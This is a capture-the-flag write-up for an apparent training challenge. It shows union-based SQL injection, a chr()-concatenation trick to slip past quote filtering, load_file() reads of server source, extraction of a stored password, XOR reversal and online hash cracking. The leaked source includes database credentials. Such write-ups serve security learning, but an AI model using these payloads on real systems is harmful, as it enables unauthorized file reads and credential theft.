



The injection point is here `/web-serveur/ch31/?action=members&id=`, and if we give this payload:
```sql
4 union select 1
```
We get back:
```
The used SELECT statements have a different number of columns
```

So, let's give more `null` until we find how many columns there are, we give `id=4` because we don't want to find in the left query, rather in the right query:
```sql
4 union select null,null,null,null
```
And it's working, now let's try and give dummy content:
```sql
4 union select 1,2,3,4
```
response:
```
ID : 1
Username : 2
Email : 4
```

Okay, when i tried to give with `'`, I got error, so we'll use this python script, to give our payload without `'`:
```py
print( 'concat(' + ','.join([f"chr({ord(i)})" for i in list("payload")]) + ')' )
```

Now, the challenge is `read-file`, so let's give this subquery `select load_file('filename')`, and the filename will be: 
```
/challenge/web-serveur/ch31/index.php
```
And after the python script:
```
concat(chr(47),chr(99),chr(104),chr(97),chr(108),chr(108),chr(101),chr(110),chr(103),chr(101),chr(47),chr(119),chr(101),chr(98),chr(45),chr(115),chr(101),chr(114),chr(118),chr(101),chr(117),chr(114),chr(47),chr(99),chr(104),chr(51),chr(49),chr(47),chr(105),chr(110),chr(100),chr(101),chr(120),chr(46),chr(112),chr(104),chr(112))
```

So, the input will be:
```sql
4 union select load_file(concat(chr(47),chr(99),chr(104),chr(97),chr(108),chr(108),chr(101),chr(110),chr(103),chr(101),chr(47),chr(119),chr(101),chr(98),chr(45),chr(115),chr(101),chr(114),chr(118),chr(101),chr(117),chr(114),chr(47),chr(99),chr(104),chr(51),chr(49),chr(47),chr(105),chr(110),chr(100),chr(101),chr(120),chr(46),chr(112),chr(104),chr(112))),2,3,4
```

As you can see, we got the file `index.php`


And after reformating from chatGPT:
```php
<?php

define('SQL_HOST',      '/var/run/mysqld/mysqld3-web-serveur-ch31.sock');
define('SQL_DB',        'c_webserveur_31');
define('SQL_LOGIN',     'c_webserveur_31');
define('SQL_P',         'dOJLsrbyas3ZdrNqnhx');


function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
 

$GLOBALS["___mysqli_ston"] = mysqli_connect('', SQL_LOGIN, SQL_P, "", 0, SQL_HOST) or exit('mysql connection error !');
mysqli_select_db($GLOBALS["___mysqli_ston"], SQL_DB) or die("Database selection error !");

if ( ! isset($_GET['action']) ) $_GET['action']="login";

if($_GET['action'] == "login"){
        print '<form METHOD="POST">
                <p><label style="display:inline-block;width:100px;">Login : </label><input type="text" name="username" /></p>
                <p><label style="display:inline-block;width:100px;">Password : </label><input type="password" name="password" /></p>
                <p><input value=submit type=submit /></p>
                </form>';

	if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
	{
		$user = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], strtolower($_POST['username']));
		$pass = sha1($_POST['password']);
		
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			if($pass == stringxor($key, base64_decode($data['member_password']))){
                                // authentication success
                                print "<p>Authentication success !!</p>";
                                if ($user == "admin")
                                    print "<p>Yeah !!! You're admin ! Use this password to complete this challenge.</p>";
                                else 
                                    print "<p>But... you're not admin !</p>";
			}
			else{
                                // authentication failed
				print "<p>Authentication failed !</p>";
			}
		}
		else{
			print "<p>User not found !</p>";
		}
	}
}

if($_GET['action'] == "members"){
	if(isset($_GET['id']) && !empty($_GET['id']))
	{
                // secure ID variable
		$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_GET['id']);
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member WHERE member_id=$id") or die(mysqli_error($GLOBALS["___mysqli_ston"]));
		
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			print "ID : ".$data["member_id"]."<br />";
			print "Username : ".$data["member_login"]."<br />";
			print "Email : ".$data["member_email"]."<br />";	
		}
                else{
                        print "no result found";
                }
	}
	else{
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member");
		while ($row = mysqli_fetch_assoc($result)) {
			print "<p><a href=\"?action=members&id=".$row['member_id']."\">".$row['member_login']."</a></p>";
		}
	}
}

?>
```

We can look on this code:
```php
    $pass = sha1($_POST['password']);

    $result = mysqli_query(
        $GLOBALS["___mysqli_ston"],
        "SELECT member_password FROM member WHERE member_login='" . $user . "'"
    );

    if (mysqli_num_rows($result) == 1) {
        $data = mysqli_fetch_array($result);

        if ($pass == stringxor($key, base64_decode($data['member_password']))) {
            // authentication success
            print "<p>Authentication success !!</p>";
```

It takes our `password`, hashes it using `sha1`, and then check if it's equal to the `key` we don't know, and to `$data['member_password']`, which we're going to get right now.


We send this payload:
```sql
4 union select (select member_password from member limit 1),2,3,4
```
And get:
```
ID : VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==
Username : 2
Email : 4
```
So, `$data['member_password']` equals to `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==`

and we also got this:
```php
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
```

So, we can take the reverse function, and generate the `SHA1` of the secret password.

```php
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
$data['member_password'] = "VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==";

echo stringxor($key, base64_decode($data['member_password']));
```
And we got this:
```
77be4fc97f77f5f48308942bb6e32aacabed9cef
```



Let's go to crackstation.net, and we got it, the password is
```
superpassword
```



**Flag:** **_`superpassword`_**